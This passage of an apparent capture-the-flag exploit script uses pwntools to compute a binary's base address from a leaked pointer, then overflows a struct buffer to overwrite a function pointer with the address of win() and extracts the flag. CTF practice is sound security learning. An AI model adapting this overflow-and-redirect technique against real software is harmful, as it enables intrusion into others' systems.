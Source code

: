 ```python
    print("found nothing")

# getting win_runtime_addr:
play_1_offset = elf.symbols['play_1']
print(f"play_1_offset: {hex(play_1_offset)}")

elf_base_addr = play_1_addr - play_1_offset
print(f"elf_base_addr: {hex(elf_base_addr)}")

win_offset = elf.symbols['win']
win_runtime_addr = elf_base_addr + win_offset
print(f"win_runtime_addr: {hex(win_runtime_addr)}")

# overflowing second struct:
p.sendline(b'1')
p.sendline(b'n')
p.sendline(b'play_2')
p.sendline(b'1')
p.sendline(b'A' * 128 + p64(win_runtime_addr))

# third struct containing win_runtime_addr
p.sendline(b'1')
p.sendline(b'n')
p.sendline(b'play_3')
p.sendline(b'2')
p.sendline(b'eeee')

p.sendline(b'2')    # chose '2. play music'
p.sendline(b'2')    # play it to call win()

# grabbing data received
data = p.recv(8192).decode()
# parsing it to isolate the flag:
matches = re.search(r'Hero\{[^}]+\}', data)
matches = str(matches.group(0))

if matches:
    flag = matches
    print(f'flag found: {flag}')
else:
    print('flag not found')

# closing the connection:
p.close()
```
